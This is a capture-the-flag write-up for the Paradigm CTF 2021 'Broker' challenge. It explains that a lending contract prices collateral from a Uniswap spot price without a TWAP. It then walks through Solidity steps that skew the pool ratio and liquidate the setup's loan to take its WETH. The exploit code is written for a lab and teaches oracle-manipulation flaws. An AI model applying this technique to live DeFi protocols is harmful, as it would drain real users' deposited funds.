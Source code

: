 # Broker Challenge
| Paradigm CTF 2021 Challenge - Oracle Manipulation Hack

## Description & Setup
The majority of the setup is in the `Setup.sol` smart contract, it contains:
- AMT Token Contract: been used as the treasury token for lending protocol
- IUniswapV2Factory Interface: interface for Uniswap V2 create pair & Setup
- Setup Contract: create and bootstrap the token/weth pool for borrowing against WETH

| ITEM                                | Description                    |
|-------------------------------------|--------------------------------|
| Contract Address <- Our hack target | Paradigm-CTF-2021-Broker       |
| Setup Contract                      | Paradigm-CTF-2021-Broker-Setup |
| Solution Contract                   | Solution                       |


Below is the setup logic: 
- 1st create a pair for AMT & WETH
- 2nd transfer 25 WETH & 500,000 AMT token to the pair
- 3rd deposit 25 eth to borrow 250,000 AMT token from the lending protocol

```solidity
  // create and bootstrap the token/weth pool for borrowing against WETH
    constructor() payable {
        require(msg.value == 50 ether);
        weth.deposit{value: msg.value}();

        token = new Token();
        pair = IUniswapV2Pair(factory.createPair(address(weth), address(token)));
        broker = new Broker(pair, ERC20Like(address(token)));
        token.transfer(address(broker), 500_000 * DECIMALS);

        // 1:25
        weth.transfer(address(pair), 25 ether);
        token.transfer(address(pair), 500_000 * DECIMALS);
        pair.mint(address(this));

        weth.approve(address(broker), type(uint256).max);
        broker.deposit(25 ether);
        broker.borrow(250_000 * DECIMALS);

        totalBefore = weth.balanceOf(address(broker)) + token.balanceOf(address(broker)) / broker.rate();
    }
```

Essentially, `broker.sol` is a simplified version of a ZERO-Interest Rate lending protocol. There are a lot of attack surfaces as a lending protoocl:
- Collaterialized assets has reentrancy risks
- Protocol might have reentrancy risks as well
- Protocol implementation issue
- Oracle attacks / manipulation & more

## Solution

The way to attack this lending protocol is relatively easy to figure out.
The key of the manipulation is within these lines of the code:
```solidity
    function rate() public view returns (uint256) {
        (uint112 _reserve0, uint112 _reserve1,) = pair.getReserves();
        uint256 _rate = uint256(_reserve0 / _reserve1);
        return _rate;
    }
```
The oracle implementation is without the TWAP just brutally using the spot price. 
Thus, we can use flashloan to manipulate the spot price and perform the attack, or just simply use the amount of tokens we had to perform the attack.
In the liquidate function:
```solidity
  // safeDebt calculation
    function safeDebt(address user) public view returns (uint256) {
          return deposited[user] * rate() * 2 / 3;
    }

 // repay a user's loan and get back their collateral. no discounts.
    function liquidate(address user, uint256 amount) public returns (uint256) {
        require(safeDebt(user) <= debt[user], "err: overcollateralized");
        debt[user] -= amount;
        token.transferFrom(msg.sender, address(this), amount);
        uint256 collateralValueRepaid = amount / rate();
        weth.transfer(msg.sender, collateralValueRepaid);
        return collateralValueRepaid;
    }
```
If user's debt is bigger than their safeDebt which means user borrowed AMT token price goes rocket.
Anyone can call liquidation method to liquidate user's fund.

Implementation:
Step 1: Trade 13 ETH for AMT token -> make the token price go roket
```solidity
 // trade 13 eth for some tokens
    address[] memory path = new address[](2);
    path[0] = address(weth);
    path[1] = address(token);
    uint256[] memory tokensReceived = router.swapExactTokensForTokens(
        ethToSend,
        1,
        path,
        address(this),
        type(uint256).max
    );
```

Step 2: we can liquidate the guy with the tokens received
```solidity
    uint256 receivedCollateral = broker.liquidate(address(setup), tokenReceived);
    require(weth.balanceOf(address(this)) > balanceBefore);
```
Although the given solution manipulation is not profitable, but we can for sure manipulate the oracle.
I found another method online, which has similar idea:

Step 1: skew the uniswap ratio by buying lots of tokens
```solidity
    weth.transfer(address(pair), weth.balanceOf(address(this)));
```
Step 2: since win condition is when there are less than 5 eth in the pool, thus we only need to liquidate 21 eth.
```solidity
    uint256 liqAmount = 21 ether * rate;
    broker.liquidate(address(setup), liqAmount);
```

